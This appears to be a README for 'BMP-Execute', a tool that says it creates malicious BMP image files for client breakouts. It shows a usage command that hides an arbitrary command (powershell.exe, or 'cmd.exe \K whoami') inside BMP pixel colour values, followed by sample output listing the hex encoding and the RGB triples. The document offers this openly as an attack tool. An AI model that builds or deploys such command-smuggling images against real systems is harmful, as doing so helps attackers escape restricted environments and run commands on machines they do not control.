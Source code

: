 # BMP-Execute
Create malicious BMP files for client breakous

Can specify any commands you like eg "cmd.exe \K whoami

```
./BMP_Execute.py -c powershell.exe -o test
Command is  powershell.exe
Output file is  test
Cmd in hex is:  b'706f7765727368656c6c2e657865'
RGB = (10, 0, 0)
RGB = (13, 10, 13)
RGB = (119, 111, 112)
RGB = (115, 114, 101)
RGB = (108, 101, 104)
RGB = (101, 46, 108)
RGB = (0, 101, 120)```
